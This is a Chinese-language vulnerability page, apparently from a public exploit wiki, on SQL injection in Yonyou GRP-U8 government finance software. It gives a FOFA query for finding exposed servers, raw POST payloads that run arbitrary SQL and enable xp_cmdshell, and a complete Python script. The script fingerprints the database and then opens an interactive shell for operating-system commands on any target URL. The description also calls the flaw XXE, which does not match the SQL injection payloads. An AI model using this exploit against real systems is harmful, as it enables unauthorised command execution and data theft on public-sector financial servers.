 # 用友GRP-U8行政事业财务管理软件 SQL注入 CNNVD-201610-923

## 漏洞描述

用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行

## 影响版本

> [!NOTE]
>
> 用友GRP-U8行政事业内控管理软件（新政府会计制度专版）

## FOFA

> [!NOTE]
>
> title="用友GRP-U8行政事业内控管理软件"

## 漏洞复现

漏洞利用POC请求包

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按F12查看源代码可以得到SQL语句查询结果

![](http://wikioss.peiqi.tech/vuln/yongyou-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/yongyou-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

也可以调用 **xp_cmdshell** 来执行系统命令(大部分此系统为**windows**)

![](http://wikioss.peiqi.tech/vuln/yongyou-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 注意：大部分默认是不开启 xp_cmdshell 模块的

![](http://wikioss.peiqi.tech/vuln/yongyou-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以使用如下方法打开**xp_cmdshell方法**

将如下POST数据按顺序发送(**注意 master 改为当前数据库名**)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

> [!NOTE]
>
> 发送如上实际为执行SQL语句打开 xp_cmdshell
> use master;
> exec sp_configure 'show advanced options',1;
> reconfigure;
> exec sp_configure 'xp_cmdshell',1;
> reconfigure;

再发送以下数据可成功使用(也可能失败)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

> [!NOTE]
>
> 执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会

发送请求后再使用此模块则会成功请求执行系统命令

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import re
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 用友GRP-U8行政事业内控管理软件                                \033[0m')
    print('+  \033[36m使用格式: python3 CNNVD-201610-923.py                               \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36m(Y/N)  >>> Y or N                                                  \033[0m')
    print('+  \033[36mcmd    >>> ipconfig                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    check_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">select 1,user,db_name(),host_name(),@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
    try:
        print("\033[32m[o] 正在执行SQL语句:select 1,user,db_name(),host_name(),@@version...\033[0m")
        response = requests.post(url=check_url, headers=headers, data=data, timeout=10)

        row_1 = '<ROW COLUMN1="1"'
        row_2 = r'COLUMN2="(.*?)"'
        row_3 = r'COLUMN3="(.*?)"'
        row_4 = r'COLUMN4="(.*?)"'
        row_5 = r'COLUMN5="(.*?)"'

        if row_1 in response.text and "服务器错误信息：null" not in response.text:
            db_user = re.findall(row_2, response.text)[0]
            db_name = re.findall(row_3, response.text)[0]
            db_host = re.findall(row_4, response.text)[0]
            db_vers = re.findall(row_5, response.text)[0]
            print("\033[32m[o] 存在漏洞，漏洞响应为:\033[0m")
            print("\033[32m >> 数据库用户为:{}\033[0m".format(db_user))
            print("\033[32m >> 数据库名为:{}\033[0m".format(db_name))
            print("\033[32m >> 数据库主机名为:{}\033[0m".format(db_host))
            print("\033[32m >> 数据库版本为:{}\033[0m".format(db_vers))
            return db_name
        else:
            print("\033[31m[x] 漏洞已被修复 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 请求失败 \033[0m")
        sys.exit(0)

def xp_cmdshell_open(target_url, db_name):
    open_sql = ["use {}".format(db_name),"exec sp_configure 'show advanced options',1","reconfigure","exec sp_configure 'xp_cmdshell',1","reconfigure"]
    num = 1
    for sql in open_sql:
        open_url = target_url + "/Proxy"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">{}</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(sql)
        try:
            print("\033[32m[o] 正在执行SQL语句:{}...\033[0m".format(sql))
            response = requests.post(url=open_url, headers=headers, data=data, timeout=10)
            num = num + 1
            if num == 5 :
                POC_2(target_url, db_name)

        except:
            print("\033[31m[x] 开启 xp_cmdsheall 失败 \033[0m")
            sys.exit(0)

def POC_2(target_url, db_name):
    db_name = db_name
    sql_cmd_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
    try:
        print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell 'whoami'...\033[0m")
        response = requests.post(url=sql_cmd_url, headers=headers, data=data, timeout=10)
        if 'exec xp_cmdshell' in response.text:
            print("\033[31m[x] 数据库未开启 xp_cmdshell 模块\033[0m")
            sqlcmd_open = str(input("\033[35m是否开启 xp_cmdshell\n(Y/N)   >>> \033[0m"))
            if sqlcmd_open == 'Y' or sqlcmd_open == 'y':
                xp_cmdshell_open(target_url, db_name)
            else:
                print("\033[31m[x] 停止开启 xp_cmdshell \033[0m")
                sys.exit(0)
        else:
            whoami = re.findall(r'output="(.*?)"', response.text)[0]
            print("\033[32m[o] 成功执行SQL语句:exec xp_cmdshell 'whoami'...\n>>> {}\033[0m".format(whoami))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, cmd):
    vuln_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "{}"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(cmd)
    try:
        print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell '{}'...\033[0m".format(cmd))
        response = requests.post(url=vuln_url, headers=headers, data=data, timeout=10)

        data = re.findall(r'output="(.*?)"', response.text)
        for i in data:
            print("\033[32m >>> {}\033[0m".format(i))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    db_name = POC_1(target_url)
    POC_2(target_url, db_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_3(target_url, cmd)


```

![](http://wikioss.peiqi.tech/vuln/yongyou-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)